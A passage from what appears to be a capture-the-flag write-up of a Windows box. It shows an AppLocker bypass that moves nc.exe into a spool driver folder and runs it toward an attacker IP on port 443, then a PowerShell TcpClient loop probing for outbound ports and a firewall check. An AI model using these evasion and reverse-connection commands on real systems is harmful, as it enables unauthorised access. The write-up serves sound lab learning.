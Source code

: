 However, I have no issue executing it out of `\windows\system32\spool\drivers\color`, one of my favorites [AppLocker Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md):

```

PS hackback\simple@HACKBACK Documents> move nc.exe \windows\system32\spool\drivers\color\nc.exe
PS hackback\simple@HACKBACK Documents> \windows\system32\spool\drivers\color\nc.exe 10.10.14.14 443

```

#### Outbound Network

I made a couple attempts to connect back to my computer, and everything failed. Eventually, I opened up `tcpdump -i tun0 -n tcp port not 80` (with the port 80 filter to get rid of the `reGeorge` traffic), and ran a loop in my terminal. I didn’t bother to make it look pretty, but it was built around this command:

```

$socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); if($socket.Connected) { echo "out on $i"; $socket.Close()}
Exception calling ".ctor" with "2" argument(s): "An attempt was made to access a socket in a way forbidden by its access permissions 10.10.14.14:443"
At line:1 char:11
+ $socket = new-object System.Net.Sockets.TcpClient("10.10.14.14", 443); ...
+           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectCommand

```

No matter what port I tried, I couldn’t find anything that could connect out. At some point, I checked the firewall:

```

PS hackback\simple@HACKBACK Documents> cmd /c "netsh advfirewall show currentprofile"

Public Profile Settings: 
----------------------------------------------------------------------
State                                 ON
Firewall Policy                       BlockInbound,BlockOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Not Configured
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Ok.

```
